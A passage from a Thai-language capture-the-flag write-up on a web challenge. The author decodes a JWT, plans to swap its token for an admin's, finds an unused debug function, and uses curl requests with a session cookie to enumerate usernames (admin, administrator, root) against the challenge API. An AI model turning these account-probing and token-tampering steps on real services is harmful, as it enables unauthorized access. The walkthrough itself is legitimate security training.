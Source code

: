 เราสามารถเปิดดูและแก้ไขข้อมูล JWT ได้โดยใช้เว็บ https://jwt.io จะเห็นว่าเมื่อ decode ข้อมูล JWT ออกมาแล้ว ค่า `token` ใน payload ของ JWT เป็นค่าเดียวกับ `remember_me_token` ของ user "test" ที่เห็นใน JSON ก่อนหน้านี้

<div align="center">

![Decoded JWT](/img/sth-mini-web-ctf-2025-1/image-11.png)

</div>

> มาถึงตอนนี้ สมมติฐานของผมคือ ถ้าเราสามารถแก้ไขค่า `token` ใน JWT ให้เป็น token ของ admin user เราจะสามารถหลอกให้ portal ล็อกอินให้เราเป็น admin โดยอัตโนมัติได้

### Abusing Debug Functions

ย้อนกลับมาที่โค้ดอีกสองส่วนที่เหลือในไฟล์ `script.js` เป็นฟังก์ชันที่ไม่ได้ถูกเรียกใช้งานจากหน้าเว็บ เข้าใจว่าสำหรับไว้ให้ developer ใช้ debug ระบบ ฟังก์ชันแรกคือ `debugFetchUserTest()`

```javascript
...SNIP...

function debugFetchUserTest() {
  fetch('api.php?action=get_userinfo&user=test')
    .then(response => response.json())
    .then(data => {
      console.log('Debug get_userinfo for user=test:', data);
    })
    .catch(err => {
      console.error('Error in debugFetchUserTest:', err);
    });
}

...SNIP...
```

เมื่อลองเรียก endpoint ที่ระบุไว้ในฟังก์ชัน `debugFetchUserTest()` ด้วย cURL จะได้ข้อมูล JSON แบบเดียวกับตอนเรียก `/api.php?action=get_userinfo` แบบไม่มี parameter `user` (เพราะเป็นข้อมูลของ user "test" เหมือนกัน)

```shell-session
$ curl -H 'Cookie: PHPSESSID=ba2b06cda26d1e0cd7e52e0b1e0cc4bf' 'https://web1.ctf.p7z.pw/api.php?action=get_userinfo&user=test'
{"username":"test","role":"user","remember_me_token":"b81943ba-d1c5-495a-8427-4711c39256bf","status":"Novice scammer, successfully conned 3 victims."}
```

ผมลองเปลี่ยนค่าของ parameter `user` จาก "test" ให้เป็น username ที่น่าจะเป็นของ admin แต่ได้ผลลัพธ์เป็น "User not found" ทั้งหมด

```shell-session
$ curl -H 'Cookie: PHPSESSID=ba2b06cda26d1e0cd7e52e0b1e0cc4bf' 'https://web1.ctf.p7z.pw/api.php?action=get_userinfo&user=admin'
{"error":"User not found"}

$ curl -H 'Cookie: PHPSESSID=ba2b06cda26d1e0cd7e52e0b1e0cc4bf' 'https://web1.ctf.p7z.pw/api.php?action=get_userinfo&user=administrator'
{"error":"User not found"}

$ curl -H 'Cookie: PHPSESSID=ba2b06cda26d1e0cd7e52e0b1e0cc4bf' 'https://web1.ctf.p7z.pw/api.php?action=get_userinfo&user=root'
{"error":"User not found"}
```
